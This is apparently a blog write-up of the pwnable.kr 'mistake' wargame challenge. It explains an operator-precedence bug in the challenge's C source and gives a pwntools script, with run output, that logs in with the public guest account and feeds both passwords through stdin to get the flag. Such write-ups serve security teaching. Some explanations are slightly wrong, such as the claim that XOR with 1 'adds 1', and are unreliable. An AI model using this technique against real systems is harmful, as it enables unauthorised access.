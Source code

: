 ```yaml
---
layout: post
title: Binary Exploitation&#58; Pwnable.kr/mistake
---
```


## Pwnable.kr: mistake - Write-up

We have access to two files, an executable named ```mistake``` and a c file named ```mistake.c```. When we try to run the executable, we are prompted with an error and the program exits.
```
└─$ ./mistake 
can't open password 1
```

For the sake of learning, let's take a look at the file type.
```
└─$ file mistake 
mistake: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ef56e67046843c3d794fda2e5842140e937dd7c6, not stripped
```

Looks like a standard linux executable, dynamically linked, and not stripped.

Time to inspect the c file.
```c
#include <stdio.h>
#include <fcntl.h>

#define PW_LEN 10
#define XORKEY 1

void xor(char* s, int len){
	int i;
	for(i=0; i<len; i++){
		s[i] ^= XORKEY;
	}
}

int main(int argc, char* argv[]){
	
	int fd;
	if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
		printf("can't open password %d\n", fd);
		return 0;
	}

	printf("do not bruteforce...\n");
	sleep(time(0)%20);

	char pw_buf[PW_LEN+1];
	int len;
	if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
		printf("read error\n");
		close(fd);
		return 0;		
	}

	char pw_buf2[PW_LEN+1];
	printf("input password : ");
	scanf("%10s", pw_buf2);

	// xor your input
	xor(pw_buf2, 10);

	if(!strncmp(pw_buf, pw_buf2, PW_LEN)){
		printf("Password OK\n");
		system("/bin/cat flag\n");
	}
	else{
		printf("Wrong Password\n");
	}

	close(fd);
	return 0;
}
```

There is a good amount to unpack here, but right off the bat I notice an operation priority conflict.
```c
if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
```

In C programming, relational operators such as ```<``` and ```>``` take priority over assignment operators like ```=```. This means that the relational expression will be evaluated first followed by the assignment expression.

We know that ```open``` returns a non-negative value on success and ```-1``` on error. We know that the file ```password``` exists on the ```ssh``` server, so we can assume that the integer returned from ```open``` will be greater than or equal to ```0```. This would mean that the relational expression would evaluate to false and therefore the value ```0``` would be assigned to the file descriptor ```fd```. The ```fd``` file descriptor is an alias for ```stdin```.

Next, ```read``` reads in 10 bytes from ```stdin``` into a character array named ```pw_buf``` and ensures that the function read at least one byte.
```c
	char pw_buf[PW_LEN+1];
	int len;
	if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
		printf("read error\n");
		close(fd);
		return 0;               
	}
```

We are then prompted for a password and ten bytes from stdin are read into another character array named ```pw_buf2```.
```c
	char pw_buf2[PW_LEN+1];
	printf("input password : ");
        scanf("%10s", pw_buf2);
```

Now we get to the encryption function.
```c
	// xor your input
        xor(pw_buf2, 10);
```

### xor()

This function takes two parameters, a character array and an integer. The values being passed to the ```xor``` function are ```pw_buf2``` and the number of bytes read into ```pw_buf```. Then, a ```for``` loop is used to iterate over each character of ```pw_buf``` and encrypt it with the ```xor``` of ```1```.
```c
void xor(char* s, int len){
        int i;
        for(i=0; i<len; i++){
                s[i] ^= XORKEY;
        }
}
```

Once ```xor``` returns, the value of ```pw_buf``` and the new value of ```pw_buf2``` are compared. If they match, we get the flag.

### pwn

So we need a string for ```pw_buf2``` that when ```xor```ed with ```1``` equals ```pw_buf```. When you ```xor``` a value with 1, you add ```1``` to it. So if we make ```pw_buf``` the string ```"AAAAAAAAAA"```, we should be able to use ```"@@@@@@@@@@"``` and pass the check. Let's write a python script.
```python
#!/usr/bin/python


from pwn import *

conn = ssh(user="mistake", host="pwnable.kr", port=2222, password="guest")
proc = conn.process(executable="./mistake", argv=None, env=None)
proc.sendline("AAAAAAAAAA")
proc.sendline("@@@@@@@@@@")


proc.interactive()
```

All we are doing is connecting to the ```ssh``` server, executing the process, and sending the two lines of text we need. Let's see if we are successful.
```
└─$ python exploit.py
[+] Connecting to pwnable.kr on port 2222: Done
[*] mistake@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
[+] Starting remote process bytearray(b'./mistake') on pwnable.kr: pid 217238
/home/jake/Desktop/pwnable_kr/mistake/exploit.py:8: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  proc.sendline("AAAAAAAAAA")
/home/jake/Desktop/pwnable_kr/mistake/exploit.py:9: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  proc.sendline("@@@@@@@@@@")
[*] Switching to interactive mode
do not bruteforce...
input password : Password OK
Mommy, the operator priority always confuses me :(
[*] Got EOF while reading in interactive
```

Et Voila!
